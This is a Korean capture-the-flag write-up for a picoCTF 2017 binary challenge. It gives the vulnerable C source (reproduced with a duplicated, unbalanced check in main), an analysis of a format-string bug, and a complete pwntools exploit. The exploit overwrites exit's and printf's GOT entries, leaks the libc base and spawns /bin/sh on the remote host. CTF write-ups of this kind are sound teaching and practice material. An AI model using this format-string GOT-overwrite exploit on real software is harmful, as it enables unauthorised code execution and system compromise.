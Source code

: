 `#FBS`, `#GOT Overwrite`  
# 목차
1. [Description](#description)
2. [Analysis](#analysis)
3. [Exploit code](#exploit-code)

## Description
[console](https://webshell2017.picoctf.com/static/253637e2bb3eb1c13b3072633a9b5714/console)  
[config-console.c](https://webshell2017.picoctf.com/static/253637e2bb3eb1c13b3072633a9b5714/config-console.c):
```
#include <stdlib.h>
#include <stdio.h>
#include <inttypes.h>
#include <stdint.h>
#include <stdbool.h>
#include <string.h>

FILE *log_file;

void append_command(char type, char *data) {
    fprintf(log_file, "%c %s\n", type, data);
}

void set_login_message(char *message) {
    if (!message) {
        printf("No message chosen\n");
        exit(1);
    }
    printf("Login message set!\n%s\n", message);

    append_command('l', message);
    exit(0);
}

void set_exit_message(char *message) {
    if (!message) {
        printf("No message chosen\n");
        exit(1);
    }
    printf("Exit message set!\n");
    printf(message);

    append_command('e', message);
    exit(0);
}

void set_prompt(char *prompt) {
    if (!prompt) {
        printf("No prompt chosen\n");
        exit(1);
    }
    if (strlen(prompt) > 10) {
        printf("Prompt too long\n");
        exit(1);
    }
    printf("Login prompt set to: %10s\n", prompt);

    append_command('p', prompt);

    append_command('p', prompt);
    exit(0);
}

void print_help() {
    printf(
        "You can:\n"
        "    login <login-message>    set the login message\n"
        "    exit <exit-message>      set the exit message\n"
        "    prompt <prompt>          set the command prompt\n"
    );
}

void loop() {
    char buf[1024];
    while (true) {
        printf("Config action: ");
        char *result = fgets(buf, 1024, stdin);
        if (!result) exit(1);
        char *type = strtok(result, " ");
        if (type == NULL) {
            continue;
        }
        char *arg = strtok(NULL, "\n");
        switch (type[0]) {
        case 'l':
            set_login_message(arg);
            break;
        case 'e':
            set_exit_message(arg);
            break;
        case 'p':
            set_prompt(arg);
            break;
        default:
            printf("Command unrecognized.\n");
            /* Fallthrough */
        case 'h':
            print_help();
            break;
        }
    }
}

int main(int argc, char **argv) {
    if (argc != 2) {
        fprintf(stderr, "Requires log file\n");
    if (argc != 2) {
        fprintf(stderr, "Requires log file\n");
        return 1;
    }
    log_file = fopen(argv[1], "a");

    setbuf(stdout, NULL);
    loop();
    return 0;
}
```
## Analysis
```
    31      printf(message);
```
31번째 줄에 포멧스트링 버그 가 있는걸 확인  

```
Config action: e %p%p%p%p e %p%p%p%p%p%p%p%p
Exit message set!
0x7f159f7bb3230x7f159f7bc7a00x7f159f4f0c000x7f159f7bc7a0 e (nil)(nil)0x7ffc71f38b320x7ffc71f38f400x400aa6(nil)0x7ffc71f38b300x7ffc71f38b30
```
64비트임  
  
```
  400690:       ff 25 72 0b 20 00       jmpq   *0x200b72(%rip)        # 601208 <puts@GLIBC_2.2.5>
  4006a0:       ff 25 6a 0b 20 00       jmpq   *0x200b6a(%rip)        # 601210 <strlen@GLIBC_2.2.5>
  4006b0:       ff 25 62 0b 20 00       jmpq   *0x200b62(%rip)        # 601218 <setbuf@GLIBC_2.2.5>
  4006c0:       ff 25 5a 0b 20 00       jmpq   *0x200b5a(%rip)        # 601220 <printf@GLIBC_2.2.5>
  4006d0:       ff 25 52 0b 20 00       jmpq   *0x200b52(%rip)        # 601228 <__libc_start_main@GLIBC_2.2.5>
  4006e0:       ff 25 4a 0b 20 00       jmpq   *0x200b4a(%rip)        # 601230 <fgets@GLIBC_2.2.5>
  4006f0:       ff 25 42 0b 20 00       jmpq   *0x200b42(%rip)        # 601238 <fprintf@GLIBC_2.2.5>
  400710:       ff 25 32 0b 20 00       jmpq   *0x200b32(%rip)        # 601248 <fopen@GLIBC_2.2.5>
  400720:       ff 25 2a 0b 20 00       jmpq   *0x200b2a(%rip)        # 601250 <strtok@GLIBC_2.2.5>
  400730:       ff 25 22 0b 20 00       jmpq   *0x200b22(%rip)        # 601258 <exit@GLIBC_2.2.5>
  400740:       ff 25 1a 0b 20 00       jmpq   *0x200b1a(%rip)        # 601260 <fwrite@GLIBC_2.2.5>
```
GOT를 leak 해보자.  

```
strlen 0x4006a6
setbuf 0x7fef3db63070
printf 0x7fb2b9f6fcf0
__libc_start_main 0x7f9240cf7a50
fgets 0x7fa301905df0
fprintf 0x4006f6
fopen 0x7f41455810a0
strtok 0x7f7a6e761a60
exit 0x400736
fwrite 0x400746
```

GOT leak 을 해보니 `ASLR on` 이었다.  
  
FSB 를 일으키려면 set_exit_message() 로 들어가야하는데  
set_exit_message() 는 항상 마지막에 exit() 을 실행한다.  
그래서 다시 connection 을 해야하는데  
ASLR 이 걸려있어서 libc 위치가 바뀐다.  
  
그래서 connection을 유지한 채  
여러번 공격 및 leak 해야하기 때문에  
종료되지 않게 loop 되도록 **조작**한다.  
  
exit@.got 를 사용자 정의함수 loop() 로 **GOT overwrite** 한다.  
  
그리고 picoCTF에서 준 ssh계정으로 **라이브러리**를 가져온다.  
  
exploit code:  
	1. exit@got 를 sym.loop() 로 GOT overwrite
	2. (한번이상 사용된) 라이브러리 함수의 GOT 를 leak 해서 LIBC_BASE 를 구함 (e.g. fopen)
	3. printf@got 를 imp.system() 으로 GOT overwrite
	4. imp.system() 의 인자가 될 "/bin/sh" 를 넘기기
	5. cat flag.txt. That's it!
  
  
  
GOT overwrite 가 가능한 조건은 `Full RELRO` 가 아니면 된다.  
  
## Exploit code
```
from pwn import *

def dump(addr):
    r.sendline('e |%27$s|abc'.ljust(104,'A')+p64(addr))
    return r.recvuntil('|abc').split('|')[-2]

def hhn8(target, to):
    p = 'e '
    to = map(ord,p64(to))
    p += '%{}c%{}$hhn'.format(to[0]+0x100, 27)
    p += '%{}c%{}$hhn'.format(to[1]+(0x100-to[0]), 28)
    p += '%{}c%{}$hhn'.format(to[2]+(0x100-to[1]), 29)
    p += '%{}c%{}$hhn'.format(to[3]+(0x100-to[2]), 30)
    p += '%{}c%{}$hhn'.format(to[4]+(0x100-to[3]), 31)
    p += '%{}c%{}$hhn'.format(to[5]+(0x100-to[4]), 32)
    p += '%{}c%{}$hhn'.format(to[6]+(0x100-to[5]), 33)
    p += '%{}c%{}$hhn'.format(to[7]+(0x100-to[6]), 34)
    p = p.ljust(104, 'A')
    p += p64(target)
    p += p64(target+1)
    p += p64(target+2)
    p += p64(target+3)
    p += p64(target+4)
    p += p64(target+5)
    p += p64(target+6)
    p += p64(target+7)

    r.sendline(p)
    r.recvuntil(': ')

def main():
    r.recvuntil(': ')

    # make loop
    hhn8(EXIT_GOT, LOOP_OFFSET)

    # leak LIBC_BASE
    fopen = u64(dump(FOPEN_GOT).ljust(8, '\0'))
    LIBC_BASE = fopen - LIBC_FOPEN

    # GOT overwrite to system
    hhn8(PRINTF_GOT, LIBC_BASE+LIBC_SYSTEM)

    # system('/bin/sh')
    r.sendline('e /bin/sh')

    r.interactive()

if __name__ == '__main__':
    r = remote('shell2017.picoctf.com', 49158)
    LOOP_OFFSET = 0x4009bd
    EXIT_GOT = 0x601258
    FOPEN_GOT = 0x601248
    PRINTF_GOT = 0x601220
    LIBC_FOPEN = 0x6a0a0
    LIBC_SYSTEM = 0x41490
    main()
# de61fcdecad9554d1f43d147b06f9dcc
```
